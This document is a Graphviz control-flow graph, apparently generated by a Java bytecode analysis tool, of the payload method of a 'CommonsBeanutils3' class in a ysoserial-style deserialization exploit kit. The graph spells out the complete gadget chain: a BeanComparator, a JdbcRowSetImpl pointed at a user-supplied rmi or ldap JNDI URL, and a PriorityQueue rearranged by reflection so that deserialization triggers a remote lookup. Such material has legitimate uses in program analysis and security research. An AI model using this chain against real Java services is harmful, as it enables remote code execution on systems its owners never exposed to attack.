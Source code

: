 digraph "unitGraph" {
    "r15 := @this: me.gv7.woodpecker.yso.payloads.CommonsBeanutils3"
    "r0 := @parameter0: java.lang.String"
    "$r1 = virtualinvoke r0.<java.lang.String: java.lang.String toLowerCase()>()"
    "$z0 = virtualinvoke $r1.<java.lang.String: boolean startsWith(java.lang.String)>(\"jndi:\")"
    "if $z0 == 0 goto $r2 = new java.lang.Exception"
    "$r3 = \"jndi:\""
    "$i0 = virtualinvoke $r3.<java.lang.String: int length()>()"
    "r16 = virtualinvoke r0.<java.lang.String: java.lang.String substring(int)>($i0)"
    "goto [?= $r4 = new org.apache.commons.beanutils.BeanComparator]"
    "$r2 = new java.lang.Exception"
    "specialinvoke $r2.<java.lang.Exception: void <init>(java.lang.String)>(\"Command format is: [rmi|ldap]://host:port/obj\")"
    "throw $r2"
    "$r4 = new org.apache.commons.beanutils.BeanComparator"
    "specialinvoke $r4.<org.apache.commons.beanutils.BeanComparator: void <init>(java.lang.String)>(\"lowestSetBit\")"
    "r5 = $r4"
    "$r6 = new com.sun.rowset.JdbcRowSetImpl"
    "specialinvoke $r6.<com.sun.rowset.JdbcRowSetImpl: void <init>()>()"
    "r7 = $r6"
    "virtualinvoke r7.<com.sun.rowset.JdbcRowSetImpl: void setDataSourceName(java.lang.String)>(r16)"
    "virtualinvoke r7.<com.sun.rowset.JdbcRowSetImpl: void setMatchColumn(java.lang.String)>(\"foo\")"
    "$r8 = new java.util.PriorityQueue"
    "specialinvoke $r8.<java.util.PriorityQueue: void <init>(int,java.util.Comparator)>(2, r5)"
    "r9 = $r8"
    "$r10 = new java.math.BigInteger"
    "specialinvoke $r10.<java.math.BigInteger: void <init>(java.lang.String)>(\"1\")"
    "virtualinvoke r9.<java.util.PriorityQueue: boolean add(java.lang.Object)>($r10)"
    "$r11 = new java.math.BigInteger"
    "specialinvoke $r11.<java.math.BigInteger: void <init>(java.lang.String)>(\"1\")"
    "virtualinvoke r9.<java.util.PriorityQueue: boolean add(java.lang.Object)>($r11)"
    "staticinvoke <me.gv7.woodpecker.yso.payloads.util.Reflections: void setFieldValue(java.lang.Object,java.lang.String,java.lang.Object)>(r5, \"property\", \"databaseMetaData\")"
    "$r12 = staticinvoke <me.gv7.woodpecker.yso.payloads.util.Reflections: java.lang.Object getFieldValue(java.lang.Object,java.lang.String)>(r9, \"queue\")"
    "$r13 = (java.lang.Object[]) $r12"
    "r14 = (java.lang.Object[]) $r13"
    "r14[0] = r7"
    "r14[1] = r7"
    "return r9"
    "r15 := @this: me.gv7.woodpecker.yso.payloads.CommonsBeanutils3"->"r0 := @parameter0: java.lang.String";
    "r0 := @parameter0: java.lang.String"->"$r1 = virtualinvoke r0.<java.lang.String: java.lang.String toLowerCase()>()";
    "$r1 = virtualinvoke r0.<java.lang.String: java.lang.String toLowerCase()>()"->"$z0 = virtualinvoke $r1.<java.lang.String: boolean startsWith(java.lang.String)>(\"jndi:\")";
    "$z0 = virtualinvoke $r1.<java.lang.String: boolean startsWith(java.lang.String)>(\"jndi:\")"->"if $z0 == 0 goto $r2 = new java.lang.Exception";
    "if $z0 == 0 goto $r2 = new java.lang.Exception"->"$r3 = \"jndi:\"";
    "if $z0 == 0 goto $r2 = new java.lang.Exception"->"$r2 = new java.lang.Exception";
    "$r3 = \"jndi:\""->"$i0 = virtualinvoke $r3.<java.lang.String: int length()>()";
    "$i0 = virtualinvoke $r3.<java.lang.String: int length()>()"->"r16 = virtualinvoke r0.<java.lang.String: java.lang.String substring(int)>($i0)";
    "r16 = virtualinvoke r0.<java.lang.String: java.lang.String substring(int)>($i0)"->"goto [?= $r4 = new org.apache.commons.beanutils.BeanComparator]";
    "goto [?= $r4 = new org.apache.commons.beanutils.BeanComparator]"->"$r4 = new org.apache.commons.beanutils.BeanComparator";
    "$r2 = new java.lang.Exception"->"specialinvoke $r2.<java.lang.Exception: void <init>(java.lang.String)>(\"Command format is: [rmi|ldap]://host:port/obj\")";
    "specialinvoke $r2.<java.lang.Exception: void <init>(java.lang.String)>(\"Command format is: [rmi|ldap]://host:port/obj\")"->"throw $r2";
    "$r4 = new org.apache.commons.beanutils.BeanComparator"->"specialinvoke $r4.<org.apache.commons.beanutils.BeanComparator: void <init>(java.lang.String)>(\"lowestSetBit\")";
    "specialinvoke $r4.<org.apache.commons.beanutils.BeanComparator: void <init>(java.lang.String)>(\"lowestSetBit\")"->"r5 = $r4";
    "r5 = $r4"->"$r6 = new com.sun.rowset.JdbcRowSetImpl";
    "$r6 = new com.sun.rowset.JdbcRowSetImpl"->"specialinvoke $r6.<com.sun.rowset.JdbcRowSetImpl: void <init>()>()";
    "specialinvoke $r6.<com.sun.rowset.JdbcRowSetImpl: void <init>()>()"->"r7 = $r6";
    "r7 = $r6"->"virtualinvoke r7.<com.sun.rowset.JdbcRowSetImpl: void setDataSourceName(java.lang.String)>(r16)";
    "virtualinvoke r7.<com.sun.rowset.JdbcRowSetImpl: void setDataSourceName(java.lang.String)>(r16)"->"virtualinvoke r7.<com.sun.rowset.JdbcRowSetImpl: void setMatchColumn(java.lang.String)>(\"foo\")";
    "virtualinvoke r7.<com.sun.rowset.JdbcRowSetImpl: void setMatchColumn(java.lang.String)>(\"foo\")"->"$r8 = new java.util.PriorityQueue";
    "$r8 = new java.util.PriorityQueue"->"specialinvoke $r8.<java.util.PriorityQueue: void <init>(int,java.util.Comparator)>(2, r5)";
    "specialinvoke $r8.<java.util.PriorityQueue: void <init>(int,java.util.Comparator)>(2, r5)"->"r9 = $r8";
    "r9 = $r8"->"$r10 = new java.math.BigInteger";
    "$r10 = new java.math.BigInteger"->"specialinvoke $r10.<java.math.BigInteger: void <init>(java.lang.String)>(\"1\")";
    "specialinvoke $r10.<java.math.BigInteger: void <init>(java.lang.String)>(\"1\")"->"virtualinvoke r9.<java.util.PriorityQueue: boolean add(java.lang.Object)>($r10)";
    "virtualinvoke r9.<java.util.PriorityQueue: boolean add(java.lang.Object)>($r10)"->"$r11 = new java.math.BigInteger";
    "$r11 = new java.math.BigInteger"->"specialinvoke $r11.<java.math.BigInteger: void <init>(java.lang.String)>(\"1\")";
    "specialinvoke $r11.<java.math.BigInteger: void <init>(java.lang.String)>(\"1\")"->"virtualinvoke r9.<java.util.PriorityQueue: boolean add(java.lang.Object)>($r11)";
    "virtualinvoke r9.<java.util.PriorityQueue: boolean add(java.lang.Object)>($r11)"->"staticinvoke <me.gv7.woodpecker.yso.payloads.util.Reflections: void setFieldValue(java.lang.Object,java.lang.String,java.lang.Object)>(r5, \"property\", \"databaseMetaData\")";
    "staticinvoke <me.gv7.woodpecker.yso.payloads.util.Reflections: void setFieldValue(java.lang.Object,java.lang.String,java.lang.Object)>(r5, \"property\", \"databaseMetaData\")"->"$r12 = staticinvoke <me.gv7.woodpecker.yso.payloads.util.Reflections: java.lang.Object getFieldValue(java.lang.Object,java.lang.String)>(r9, \"queue\")";
    "$r12 = staticinvoke <me.gv7.woodpecker.yso.payloads.util.Reflections: java.lang.Object getFieldValue(java.lang.Object,java.lang.String)>(r9, \"queue\")"->"$r13 = (java.lang.Object[]) $r12";
    "$r13 = (java.lang.Object[]) $r12"->"r14 = (java.lang.Object[]) $r13";
    "r14 = (java.lang.Object[]) $r13"->"r14[0] = r7";
    "r14[0] = r7"->"r14[1] = r7";
    "r14[1] = r7"->"return r9";
}
